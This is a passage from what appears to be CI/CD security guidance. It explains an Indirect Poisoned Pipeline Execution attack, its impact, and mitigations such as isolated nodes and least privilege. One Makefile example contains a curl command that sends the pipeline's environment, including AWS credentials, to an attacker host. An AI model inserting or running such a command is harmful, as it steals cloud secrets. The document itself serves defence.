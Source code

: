 In this scenario, an I-PPE attack would be carried out as follows:



1. An attacker creates a pull request in the repository, appending malicious commands to the _Makefile_ file.


```MAKEFILE
build:
   curl -d "$$(env)" hack.com

clean:
   echo "cleaning…"

```



2. Since the pipeline is configured to be triggered upon any PR against the repo, the Jenkins pipeline is triggered, fetching the code from the repository, including the malicious _Makefile_.
3. The pipeline runs based on the configuration file stored in the main branch. It gets to the _build_ stage, and loads the AWS credentials into environment variables - as defined in the original Jenkinsfile. Then, it runs the _make build_ command, which executes the malicious command that was added into _Makefile_.
4. The malicious _build_ function defined in the Makefile is executed, sending the AWS credentials to a server controlled by the attacker.
5. The attacker is then able to use the stolen credentials to access the AWS production environment.


## Impact

In a successful PPE attack, attackers execute malicious unreviewed code in the CI. This provides the attacker with the same abilities and level of access as the build job, including:



* Access to any secret available to the CI job, such as secrets injected as environment variables or additional secrets stored in the CI. Being responsible for building code and deploying artifacts, CI/CD systems typically contain dozens of high-value credentials and tokens - such as to a cloud provider, to artifact registries, and to the SCM itself.
* Access to external assets the job node has permissions to, such as files stored in the node’s file system, or credentials to a cloud environment accessible through the underlying host.
* Ability to ship code and artifacts further down the pipeline, in the guise of legitimate code built by the build process. 
* Ability to access additional hosts and assets in the network/environment of the job node.

## Recommendations

Preventing and mitigating the PPE attack vector involves multiple measures spanning across both SCM and CI systems:



* Ensure that pipelines running unreviewed code are executed on isolated nodes, not exposed to secrets and sensitive environments.
* Evaluate the need for triggering pipelines on public repositories from external contributors. Where possible, refrain from running pipelines originating from forks, and consider adding controls such as requiring manual approval for pipeline execution. 
* For sensitive pipelines, for example those that are exposed to secrets, ensure that each branch that is configured to trigger a pipeline in the CI system has a correlating branch protection rule in the SCM.
* To prevent the manipulation of the CI configuration file to run malicious code in the pipeline, each CI configuration file must be reviewed before the pipeline runs. Alternatively, the CI configuration file can be managed in a remote branch, separate from the branch containing the code being built in the pipeline. The remote branch should be configured as protected.
* Remove permissions granted on the SCM repository from users that do not need them.
* Each pipeline should only have access to the credentials it needs to fulfill its purpose. The credentials should have the minimum required privileges.
